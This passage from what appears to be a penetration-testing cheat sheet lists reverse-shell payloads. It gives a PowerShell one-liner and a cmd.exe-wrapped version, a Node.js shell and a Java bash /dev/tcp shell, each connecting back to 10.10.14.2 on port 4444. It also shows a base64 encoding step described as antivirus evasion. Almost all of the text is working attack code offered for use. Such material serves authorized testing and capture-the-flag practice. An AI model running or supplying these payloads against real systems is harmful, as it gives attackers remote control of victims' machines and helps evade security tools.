 #### 🧠 One-Liner

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.2',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

#### ⚙️ Encoded for AV Evasion

```powershell
powershell -EncodedCommand <base64_payload>
```

Generate:

```bash
echo -n "payload" | iconv --to-code UTF-16LE | base64
```

***

### X. 🧠 Windows CMD Reverse Shells

```bash
cmd.exe /c powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.2',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

***

### XI. 🧩 Node.js Reverse Shells

```js
var net = require('net'), cp = require('child_process');
var client = new net.Socket();
client.connect(4444, '10.10.14.2', function(){
  var sh = cp.spawn('sh', []);
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
});
```

***

### XII. 🧰 Java Reverse Shells

```java
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.2/4444 0>&1"});
```

